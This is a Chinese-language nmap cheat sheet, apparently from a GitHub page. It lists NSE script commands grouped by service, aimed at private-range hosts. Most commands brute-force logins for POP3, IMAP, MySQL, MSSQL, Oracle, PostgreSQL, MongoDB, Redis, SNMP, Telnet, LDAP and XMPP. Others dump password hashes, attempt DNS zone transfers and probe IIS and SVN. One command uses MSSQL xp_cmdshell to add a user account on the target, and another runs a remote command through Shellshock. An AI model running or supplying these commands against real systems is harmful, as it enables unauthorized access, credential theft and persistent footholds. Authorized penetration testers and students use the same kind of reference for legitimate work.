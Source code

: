 POP3相关脚本:
nmap -p 110 --script pop3-brute.nse -v 192.168.3.23

IMAP相关脚本:
nmap -p 143,993 --script imap-brute.nse -v 192.168.3.23

DNS相关脚本:
nmap -p 53 --script dns-zone-transfer.nse -v 192.168.3.23
nmap -p 53 --script dns-zone-transfer.nse --script-args dns-zone-transfer.domain=target.org -v 192.168.3.23
nmap -p80 --script hostmap-ip2hosts.nse 192.168.3.23

数据库相关脚本:
nmap -p 9088 --script informix-brute.nse 192.168.3.23
nmap -p 3306 --script mysql-empty-password.nse -v 192.168.3.23
nmap -p 3306 --script mysql-brute.nse -v 192.168.3.23
nmap -p 3306 --script mysql-dump-hashes --script-args='username=root,password=root' 192.168.3.23
nmap -p 3306 --script mysql-vuln-cve2012-2122.nse  -v 192.168.3.23
nmap -p 1433 --script ms-sql-info.nse --script-args mssql.instance-port=1433 -v 192.168.3.0/24
nmap -p 1433 --script ms-sql-empty-password.nse -v 192.168.3.0/24
nmap -p 1433 --script ms-sql-brute.nse -v 192.168.3.0/24
nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user test test /add" 192.168.3.0/24
nmap -p 1433 --script ms-sql-dump-hashes -v 192.168.3.0/24
nmap -p 5432 --script pgsql-brute -v 192.168.3.0/24
nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v 192.168.3.0/24
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v 192.168.3.0/24
nmap -p 27017  --script mongodb-brute 192.168.3.0/24
nmap -p 6379 --script redis-brute.nse 192.168.3.0/24

SNMP相关脚本:
nmap -sU --script snmp-brute --script-args snmp-brute.communitiesdb=user.txt 192.168.3.0/24

TELNET相关脚本:
nmap -p 23 --script telnet-brute --script-args userdb=myusers.lst,passdb=mypwds.lst,telnet-brute.timeout=8s -v 192.168.3.0/24

LDAP相关脚本:
nmap -p 389 --script ldap-brute --script-args ldap.base='"cn=users,dc=cqure,dc=net"' 192.168.3.0/24

XMPP爆破:
nmap -p 5222 --script xmpp-brute.nse  192.168.3.0/24

短文件扫描:
nmap -p80 --script http-iis-short-name-brute.nse 192.168.3.0/24

iis5.0/6.0 webdav:
nmap --script http-iis-webdav-vuln.nse -p80,8080 192.168.3.0/24

bash远程执行:
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls 192.168.3.0/24

探测目标svn:
nmap --script http-svn-info 192.168.3.0/24
